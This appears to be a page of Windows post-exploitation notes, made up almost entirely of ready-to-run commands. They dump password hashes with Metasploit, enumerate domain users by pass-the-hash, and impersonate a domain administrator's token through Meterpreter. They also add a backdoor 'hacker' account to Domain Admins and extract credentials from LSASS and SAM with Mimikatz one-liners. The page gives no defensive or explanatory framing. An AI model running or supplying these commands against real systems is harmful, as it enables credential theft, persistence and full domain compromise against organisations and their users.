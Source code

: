 ### Dump the hashes (Metasploit)

```
msf > run post/windows/gather/smart_hashdump GETSYSTEM=FALSE
```

### Find the admins (Metasploit)

```
spool /tmp/enumdomainusers.txt
msf > use auxiliary/scanner/smb/smb_enumusers_domain
msf > set smbuser Administrator
msf > set smbpass <LM:NTLM Hash>
msf > set rhosts 10.0.0.0/24
msf > set threads 8
msf > run
msf> spool off
```

### Compromise Admin's box

```
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token MYDOMAIN\\\\adaministrator
meterpreter > getuid
meterpreter > shell
```

```
C:\\> whoami
mydom\\adaministrator
C:\\> net user hacker /add /domain
C:\\> net group "Domain Admins" hacker /add /domain
```

## Credentials Mimikatz

```bash
#Elevate Privileges to extract the credentials
privilege::debug #This should give am error if you are Admin, butif it does, check if the SeDebugPrivilege was removed from Admins
token::elevate
#Extract from lsass (memory)
sekurlsa::logonpasswords
#Extract from SAM
lsadump::sam
#One liner
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
```
